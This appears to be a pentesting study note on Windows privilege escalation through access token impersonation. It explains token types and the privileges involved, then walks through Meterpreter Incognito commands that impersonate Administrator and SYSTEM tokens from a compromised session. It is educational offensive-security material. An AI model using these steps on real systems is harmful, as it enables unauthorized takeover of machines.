 # Windows Privilege Escalation: Access Token Impersonation
> How to impersonate a Windows Access Token that belongs to a privileged user (allows us to inherit that users privileges). 

## Contents
- [Intro](#intro)
  - [Windows Access Tokens](#windows-access-tokens)
  - [How Windows Access Token Work](#how-windows-access-token-work)
  - [Windows Privileges](#windows-privileges)
  - [Tool: The Incognito Module](#tool-the-incognito-module-metasploit)
- [Practical: Incognito](#practical-incognito)
  - [Scenario](#scenario)
  - [Usage: Meterpreter Module](#usage-meterpreter-module)

## Intro

### Windows Access Tokens
- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system.
  - Simply put, an access token can be thought of as a temporary key similar to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is needed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process.
  - The token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

### How Windows Access Token Work
- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will typically be assigned one of the following security levels:
  - `Impersonate`: Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  - `Delegate`: Delegate-level tokens are typically created through an interactive login in Windows, primarily through a traditional login or through remote acess protocols like RDP.
- Impersonate-level tokens can be used to impersonate a token on the local system but not on any external systems that utilize the token.
- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

### Windows Privileges
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges (getprivs in meterpreter) that are required for a successful impersonation attack:
  - `SeAssignPrimaryToken`: This allows a user to impersonate tokens.
  - `SeCreateToken`: This allows a user to create an arbitrary token with administrative privileges.
  - `SeImpersonatePrivilege`: This allows a user to create a process under the security context of another user typically with administrative privileges.

### Tool: [The Incognito Module](https://www.offsec.com/metasploit-unleashed/fun-incognito/) (MetaSploit)
> Incognito is a built-in **_meterpreter_** module (not just a Metasploit module; it is built into meterpreter) that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- Tokens are just like web cookies.
  - They are a temporary key that allows you to access the system and network without having to provide credentials each time you access a file.
- Incognito exploits this the same way cookie stealing works: By replaying that temporary key when asked to authenticate.
- Tokens persist until a reboot.
  - When a user logs off, their delegate token is reported as an impersonate token.
  - But will still hold all of the rights of a delegate token.
- We can use the incognito module to display a list of available tokens that we can impersonate.

## Practical: Incognito

### Scenario
- You have an unprivileged meterpreter session on an compromised target (via MSF).
- This attack will depend on what users are currently on the system and if any of those users has an account with admin access.
  - They'll leave their tokens just lying around for us to pick up...

### Usage: Meterpreter Module

#### Initial
```
> sysinfo
  # target is 64-bit but meterpreter is 32-bit; migrate meterpreter to 64-bit

> pgrep explorer
> migrate [pid]
  # ACCESS DENIED b/c we currently have an unprivileged user account

> getuid
  # NT AUTHORITY/LOCAL SERVICE... not system

> getprivs
  # confirms your limited privileges on the account you're using
  # NOTE: The getprivs lists out the privileges assigned to this account. One of them is SeImpersonatePrivilege.
  # That means we can use this account to impersonate other access token available.

> load incognito
  # if your session dies, start it again and load again...

> list_tokens -u
  # lists user's delegation and impersonation tokens
```

#### Find & Impersonate Admin Token
- What you are interested in are **Delegation** tokens (token created as part of an interactive login) that have administrator privileges.
- For example: HOSTNAME\Administrator this would be a fine delegated token to impersonate).
```
> impersonate_token "HOSTNAMEE\Administrator" 
  # you may need to add a second "\" (HOSTNAME\\Administrator)
  # should be successful

> getuid
  # should show the above account

> getprivs
  # FAIL

> pgrep explorer
> migrate [pid]

> getprivs
  # should have a bundle of goodies: elevated privileges

> list_tokens -u
  # If you list-tokens -u again, you'll see you have additional tokens available.
  # One such token is NT AUTHORITY\SYSTEM.

> impersonate_token "NT AUTHORITY\SYSTEM"
> getuid
  # should show that same name
> getprivs
```

- If you do not have any administrator level tokens available (when you list_tokens -u), then you'll have to do a `potato attack`.
- This will generate an NT AUTHORITY access token that you can then use to impersonate and thereby obtain the privileges assocated with that token. 
